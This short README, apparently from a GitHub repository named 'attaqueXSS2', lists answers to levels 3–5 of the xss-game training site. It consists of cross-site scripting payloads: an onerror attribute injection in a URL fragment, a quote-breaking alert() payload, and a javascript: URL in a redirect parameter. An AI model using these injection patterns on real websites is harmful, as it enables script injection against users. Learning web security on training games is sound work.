 # attaqueXSS2


Challenge 3 : https://xss-game.appspot.com/level3/frame#' onerror='alert();//

Challenge 4 : 1'**alert());//

Challenge 5 : https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert()
